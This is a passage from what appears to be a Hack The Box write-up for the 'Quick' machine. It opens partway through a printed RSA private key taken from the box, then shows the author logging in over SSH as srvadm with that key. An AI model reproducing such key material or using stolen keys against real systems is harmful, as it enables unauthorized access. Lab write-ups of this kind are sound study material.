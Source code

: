 ```bash
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
VA[vibhu@parrot]─[~/HTB/boxes/ROOTED/Quick]$
```

we got `private-ssh-keys` for user srvadm

## Login as srvadm

```bash
[vibhu@parrot]─[~/HTB/boxes/ROOTED/Quick]$ ssh -i id_rsa srvadm@quick.htb
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul  8 08:54:16 UTC 2020

  System load:  1.24               Users logged in:                1
  Usage of /:   30.1% of 19.56GB   IP address for ens33:           10.10.10.186
  Memory usage: 16%                IP address for br-9ef1bb2e82cd: 172.18.0.1
  Swap usage:   0%                 IP address for docker0:         172.17.0.1
  Processes:    127


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

54 packages can be updated.
28 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul  8 08:32:00 2020 from 10.10.14.166
srvadm@quick:~$ id && whoami
uid=1001(srvadm) gid=1001(srvadm) groups=1001(srvadm),999(printers)
srvadm
srvadm@quick:~$
```
